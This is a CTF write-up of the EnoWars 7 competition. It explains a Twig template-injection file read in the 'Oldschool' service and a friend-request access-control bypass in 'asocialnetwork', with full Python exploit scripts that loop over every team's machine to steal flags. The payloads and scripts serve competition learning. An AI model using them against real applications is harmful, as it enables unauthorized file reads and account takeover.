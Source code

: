


---
layout: post
title: EnoWars 7
---



# Oldschool - Twig SSTI

One of the many vulnerabilities from this service was SSTI. The program is using the twig templating engine so a payload like `{{7*7}}` will result in `49`

![[Pasted image 20230722224514.png]]

We exploiting this in the "About me" section of the user profile

![[Pasted image 20230722224056.png]]

As a result of this snipped of code. we can pass SSTI payloads into service.

From testing it seemed RCE was not going to work. We still had file read which is enough for us to exploit this. The following payload is used for file read:
`{{ source("grades/file_to_read") }}`
This would result in an error on the page so it was wrapped in a comment:

Final payload: `<!-- {{ source("file_we_want_to_read") }} --!>`



So we can read any file we want. but we need to read flag files! Looking at the attack.json endpoint we can see what flagstores are useful for Oldschool.

![[Pasted image 20230722224840.png]]

A file is being upload and named `randomints_md5hash` this md5 hash. From looking at our own box these files are being saved in `/services/grades/` 

so we need to read grades/FLAG_ID

I tested this on the NOP team with a simple payload of :
`<!-- {{ source("grades/138219_1143facd439275abb0caed4979e4f8bf") }} --!>` 
and sure enough. the flag was in the source of the page. Now it was just a matter of writing an exploit script that will go to each team and grab that flag. 

## Exploiting
We need to automate out exploit in order to exploit all the teams. To do this, we need a few "stages" to our exploit. the basic plan is:
- Create an account
- Using that account update About me with out SSTI payload
- Retrieve and submit the flag


We used a random string for the username and password for each account and would make a new account for each attack. The following code will make an account for us:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
```

We than update our profile "about me" with out payload and grab the results of the page:

```python
payload = {'about_me': '<!--{{ source("grades/'+FLAGID+'") }}-->'}
session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text
```

FLAGID and IP are taken from the attack.json endpoint.

We used this bit of code to only return the flag string from out exploit script:
```python
flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
flags = flag_regex.findall(profile_page)

print(flags)
```


Our exploit manager handles the submitting of the flag. so printing it out like that is enough for this script.

![[Pasted image 20230722231527.png]]


Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json

letters = string.ascii_lowercase

def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID = extra[x]['1'][0].split(' ')[-1]

	session = requests.Session()

	username = rand_string(10)
	password = rand_string(10)

	payload = {'about_me': '<!--{% include "grades/'+FLAGID+'" %}--> <!--{{ source("grades/'+FLAGID+'") }}-->'}

	session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
	session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
	profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text

	flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
	flags = set(flag_regex.findall(profile_page))
	for flag in flags:
		print(flag)
```

# asocialnetwork - Broken Access Control

This was wonderfully made social media app. 
![[Pasted image 20230722232224.png]]

We found from tulip that the Chatroom will contain a flag. The chatroom that has a flag was the room that a user from the `attack.json` file was a part of. The only issue is in order to know that room this user is a part of, you must be their friend, and making friends is hard so lets force them to be our friend.

When you send a friend request the following request is made:
`partner=THEIRNAME&userName=YOURNAME&status=send`

```node
if (req.body.status === 'accept') {
    if (!friend) {
        res.status(400).send('Acceptance Request not found')
        return
    } else {
        friend.status = 'accepted'
        await friend.save()
    }
}

```

however, you can force them to accept your friend request by changing "send" to "accept" 

There is no check to ensure the user accepting the request is not the user that sent the request. 

So now that we are suddenly very popular. we can view our new friend profile and see what rooms they are part of. (I don't have any screenshots of this from the live CTF). Viewing their profile gave us a room ID. this room ID was not valid to just join the chatroom. From review of the source code we needed to get the sha256 of that ID. This would let us join the chatroom and get the flag.

## Exploiting

For this exploit we need to:
- Make a new account
- Send a friend request to our new friend
- Force them to accept it.
- get the sha256sum of the room ID
- Visit the room and get the flag

First bit is done with this:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
```

We can than send and accept the friend request with this:
```python
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})
```

The final part is to go to our new friends page. get the ID, hash it and view the chatroom:
```python
friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
test = re.search(pattern,friend_page)
roomid_tmp = test.group(1).encode('utf-8')
roomid = hashlib.sha256(roomid_tmp).hexdigest()

chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

```

Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json
import hashlib


letters = string.ascii_lowercase
def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID =json.loads(extra[x]['1'][0])['username']
	#print(FLAGID)
	try:
		session = requests.Session()
		username = rand_string(10)
		password = rand_string(10)

		session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})

		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})

		friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
		pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
		test = re.search(pattern,friend_page)
		roomid_tmp = test.group(1).encode('utf-8')
		roomid = hashlib.sha256(roomid_tmp).hexdigest()

		chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

		flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
		flags = flag_regex.findall(chatroom)
		for flag in set(flags):
			print(flag)
	except Exception as e:
		print(e)
```


